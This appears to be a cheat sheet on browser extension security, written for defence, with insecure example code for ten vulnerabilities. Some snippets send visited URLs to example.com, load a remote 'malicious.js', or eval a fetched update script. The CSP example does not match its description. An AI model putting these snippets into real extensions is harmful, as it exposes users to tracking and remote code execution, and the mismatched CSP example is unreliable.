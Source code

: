 OWASP Cheat Sheet: Top 10 Browser Extension Security Vulnerabilities


1. Permissions Overreach

🚨 Vulnerability
Browser extensions sometimes request more permissions than they actually need. This can grant them access to all tabs, browsing history, and even sensitive user data. If an extension is compromised, it could lead to serious privacy risks.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ]
}
🔒 Mitigation

Follow the Principle of Least Privilege (PoLP) and request only the permissions that are absolutely necessary.
Use optional permissions whenever possible instead of granting full access upfront.
Regularly audit and remove any permissions that are no longer needed.


2. Data Leakage

🚨 Vulnerability
Some extensions unintentionally expose user data by sending browsing activity or personal details to external servers without proper security measures.

🔍 Example

javascript
Copy code
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
🔒 Mitigation

Always use HTTPS for all communications to prevent data interception.
Limit data collection and be transparent by clearly stating what data is collected in a Privacy Policy.
Implement user consent mechanisms before collecting or sending any personal data.


3. Cross-Site Scripting (XSS)

🚨 Vulnerability
If user input is not properly sanitized, attackers can inject malicious scripts into web pages, potentially stealing user data or performing unauthorized actions.

🔍 Example

javascript
Copy code
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // No sanitization
🔒 Mitigation

Implement Content Security Policy (CSP) to block inline scripts.
Use libraries like DOMPurify to sanitize user input before displaying it.
Avoid using innerHTML and instead use textContent to prevent execution of injected scripts.


4. Insecure Communication

🚨 Vulnerability
Some extensions send sensitive data over unsecured HTTP connections, making it vulnerable to interception by attackers.

🔍 Example

javascript
Copy code
fetch('http://example.com/api/data');
🔒 Mitigation

Always use HTTPS for external communications to prevent data theft.
Where possible, implement certificate pinning to prevent man-in-the-middle (MITM) attacks.
Validate server responses before processing them to ensure data integrity.


5. Code Injection

🚨 Vulnerability
An extension that dynamically loads scripts from an untrusted source can be exploited to inject and execute malicious code.

🔍 Example

javascript
Copy code
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js';
document.body.appendChild(script);
🔒 Mitigation

Use CSP (Content Security Policy) to restrict script sources.
Avoid using eval() and innerHTML as they can execute malicious code.
Prefer using extension messaging APIs instead of injecting scripts into web pages.


6. Malicious Updates

🚨 Vulnerability
If an extension fetches updates from an untrusted server, an attacker could push malicious updates to all users.

🔍 Example

javascript
Copy code
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval); // Unsafe!
});
🔒 Mitigation

Sign extension updates with digital signatures to ensure authenticity.
Fetch updates only from a trusted HTTPS server.
Implement integrity checks before executing any fetched code.


7. Third-Party Dependencies

🚨 Vulnerability
Using outdated or vulnerable third-party libraries in an extension can introduce security risks if those libraries have known exploits.

🔍 Example

json
Copy code
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
🔒 Mitigation

Regularly audit third-party dependencies for security vulnerabilities.
Use tools like npm audit or OWASP Dependency-Check to detect risks.
Prefer actively maintained libraries with frequent security updates.


8. Lack of Content Security Policy (CSP)

🚨 Vulnerability
Without a strict CSP, attackers can inject scripts into an extension’s web pages, increasing the risk of cross-site scripting (XSS) attacks.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
🔒 Mitigation

Define a strict CSP in the extension’s manifest.json file.
Use nonce-based or hash-based policies to allow only trusted scripts.
Block execution of inline scripts and restrict third-party content sources.


9. Insecure Storage

🚨 Vulnerability
Storing sensitive data like authentication tokens in localStorage or other unsecured locations makes it easy for attackers to access.

🔍 Example

javascript
Copy code
localStorage.setItem('token', 'my-secret-token'); // No encryption
🔒 Mitigation

Store sensitive data in Chrome Storage API, which provides better security than localStorage.
Encrypt stored data before saving it locally.
Never hardcode API keys or credentials within the extension code.


10. Insufficient Privacy Controls

🚨 Vulnerability
If an extension does not clearly define how it collects and handles user data, it could lead to privacy violations and unauthorized data usage.

🔍 Example

json
Copy code
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}
🔒 Mitigation

Implement a clear privacy policy that explains data collection practices.
Allow users to opt out of data collection.
Disclose data-sharing practices to comply with GDPR, CCPA, and other privacy regulations.


🏁 Conclusion
By following these security best practices, developers can build safer browser extensions and protect users from privacy and security threats. Always prioritize least privilege, encryption, and secure coding principles when developing extensions.

🔹 References:

Google Chrome Extension Security Guide:
https://developer.chrome.com/docs/extensions/mv3/security/
Mozilla Firefox Extension Security Best Practices:
https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Security_best_practices
